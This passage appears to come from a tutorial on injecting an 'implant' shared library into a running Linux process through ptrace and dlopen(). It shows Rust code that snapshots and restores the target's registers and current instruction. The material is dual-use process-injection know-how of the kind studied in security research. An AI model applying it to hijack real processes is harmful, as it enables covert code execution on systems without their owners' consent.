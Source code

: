 
### Process Manipulation {#process-manipulation}

To perform the final steps, we will inject instructions and modify register values of the target process.
First, we have to make it allocate some memory (or find some code caves to write to), where we then write the path to the implant library.
Finally, we make it call `dlopen()` to load and run the library.

Before manually overwriting instructions and registers, it is necessary to save the state of the process to be restored later.

````rust
struct Snapshot {
    registers: user_regs_struct,
    instruction: i64,
    pid: Pid,
}
````

````rust
impl Snapshot {
    fn new(pid: Pid) -> Result<Self, nix::Error> {
	// Get and save the current register values of the target process
	let registers = ptrace::getregs(pid)?;

	// Save the instruction at the current rip
	let instruction = ptrace::read(pid, registers.rip as *mut c_void)?;

	Ok(Self {
	    registers,
	    instruction,
	    pid,
	})
    }

    fn restore(self) -> Result<(), nix::Error> {
	// Restore the original registers
	ptrace::setregs(self.pid, self.registers)?;

	// Restore the saved instruction
	unsafe {
	    ptrace::write(
		self.pid,
		self.registers.rip as *mut c_void,
		self.instruction as *mut c_void,
	    )?
	};
	Ok(())
    }
}
````

The `Snapshot` struct holds both the registers and the next instruction at the point where the snapshot was taken.
The process can later be restored to its original state by calling `restore()`.
